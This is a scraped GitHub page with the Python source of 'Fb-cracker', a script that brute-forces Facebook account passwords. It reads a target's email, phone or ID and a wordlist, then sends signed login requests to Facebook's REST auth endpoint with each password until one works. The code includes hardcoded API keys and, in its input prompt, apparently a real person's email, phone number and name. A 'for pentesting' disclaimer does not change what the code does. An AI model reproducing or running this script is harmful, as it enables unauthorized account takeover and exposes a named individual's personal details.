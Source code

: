 # Fb-cracker
ute.py - Facebook Brute Force # -*- coding: utf-8 -*- ## import os import sys import urllib import hashlib   API_SECRET = "62f8ce9f74b12f84c123cc23437a4a32"   __banner__ = """        +=======================================+        |..........Facebook Cracker v 1.........|        +---------------------------------------+        |#Author: DedSecTL &lt;dtlily>             |        |#Contact: Telegram @dtlily             |        |#Date: Fri Feb 8 10:15:49 2019         |        |#This tool is made for pentesting.     |        |#Changing the description of this tool |        |Won't made you the coder  !!!       |        |#Respect Coderz                     |        |#I take no responsibilities for the    |        |  use of this program !                |        +=======================================+        |..........Facebook Cracker v 1.........|        +---------------------------------------+ """   print("[+] Facebook Brute Force\n") userid = raw_input("[*] Enter [sthebanolivares@gmail.com|8123488712|Sttheban OlivaRes|ID]: ") try:     passlist = raw_input("[*] Set PATH to passlist: ")     if os.path.exists(passlist) != False:         print(__banner__)         print(" [+] Account to crack : {}".format(userid))         print(" [+] Loaded : {}".format(len(open(passlist,"r").read().split("\n"))))         print(" [+] Cracking, please wait ...")         for passwd in open(passlist,'r').readlines():             sys.stdout.write(u"\u001b[1000D[*] Trying {}".format(passwd.strip()))             sys.stdout.flush()             sig = "api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail={}format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword={}return_ssl_resources=0v=1.0{}".format(userid,passwd.strip(),API_SECRET)             xx = hashlib.md5(sig).hexdigest()             data = "api_key=882a8490361da98702bf97a021ddc14d&amp;credentials_type=password&amp;email={}&amp;format=JSON&amp;generate_machine_id=1&amp;generate_session_cookies=1&amp;locale=en_US&amp;method=auth.login&amp;password={}&amp;return_ssl_resources=0&amp;v=1.0&amp;sig={}".format(userid,passwd.strip(),xx)             response = urllib.urlopen("https://api.facebook.com/restserver.php?{}".format(data)).read()             if "error" in response:                 pass             else:                 print("\n\n[+] Password found .. !!")                 print("\n[+] Password : {}".format(passwd.strip()))                 break         print("\n\n[!] Done .. !!")     else:         print("fbbrute: error: No such file or directory") except KeyboardInterrupt:
